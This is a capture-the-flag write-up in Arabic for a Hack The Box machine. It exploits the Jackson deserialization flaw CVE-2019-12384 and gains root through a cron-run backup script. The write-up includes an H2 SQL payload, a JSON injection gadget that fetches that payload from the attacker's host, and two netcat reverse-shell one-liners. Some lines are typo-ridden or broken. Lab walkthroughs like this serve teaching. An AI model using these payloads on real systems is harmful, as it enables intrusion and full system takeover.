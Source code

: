 

 ![Desktop View](/img/tm/0.png)


Created by fasto

My profile : https://www.hackthebox.eu/home/users/profile/

_Sammmry:_


 web application   بعد فحص 

  cve 2019-12384 نجد ان السيرفر مصاب ب 

بعد ذلك نجد user نقوم باستغلالها للحصول على 

root نضع داخله الشال الخاص بنا لنحصل على صلاحيات backup.sh


- sammmry
- 1 Recon
   - 1.1 Nmap
   - 1.2 Port
   - 1.3 CVE- 201-12384
- 2 User
- 3 privilege escalation
   - 3.1 backup.sh


## 1 Recon

### 1.1 Nmap

nmap نبدا بفحص البورتات باستخدام

 ![Desktop View](/img/tm/1.png)

  نجد بورت 80 مفتوح

### 1.2 Port

 نفتح


http://10.10.10.214
```
Validation failed: Unhandled Java exception:
com.fasterxml.jackson.core.JsonParseException:
Unrecognized token 'test':

```
 في جوجل نجد نجد ان fasterxml.jackson نبحث عن

CVE- 2019 - 12384 السيرفر مصاب ب

```
```
fasterxml.jackson


### 1.3 CVE-2019-12384

https://github.com/jas502n/CVE-2019-12384


في ملف في جهازنا payload نقوم بوضع

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws
java.io.IOException {
String[] command = {"bash", "-c", cmd};
java.util.Scanner s = new
java.util.Scanner(Runtime.getRuntime().exec(command).getInputSt
ream()).useDelimiter("\\A");
return s.hasNext() ? s.next() : ""; }
$$;
CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i
2>&1|nc 10.10.14.212 5555 >/tmp/f')
```




python serverنشغل


 ![Desktop View](/img/tm/2.png)

  ![Desktop View](/img/tm/3.png)


#### نفتح

http://10.10.10.214



نقوم بحقن
```
["ch.qos.logback.core.db.DriverManagerConnection
Source",{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTE
M_OUT=3;INIT=RUNSCRIPT FROM
'http://I10.10.14.212/payload'"}]

```
  ![Desktop View](/img/tm/4.png)

  ![Desktop View](/img/tm/5.png)

## 2 User

linpeas

على السيرفرlinpeas نرفع shell بعد الحصول على


  ![Desktop View](/img/tm/6.png)

## 3 privilege escalation

### 3.1 backup.sh

الملف linpead  نجد بالفحص ب

/usr/bin/timer_backup.sh

 نقوم بالتعديل عليه بالامر  الاتي   نضع داخل الملف


خاص بنا shell 


 
نحصل على شال timer_backup.shبتشغيل cron عندما يقوم

rootبصلاحيات


```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i
2>&1|nc 10.10.14.212 1234 >/tmp/f"
>/usr/bin/timer_backup.sh
```



  ![Desktop View](/img/tm/7.png)




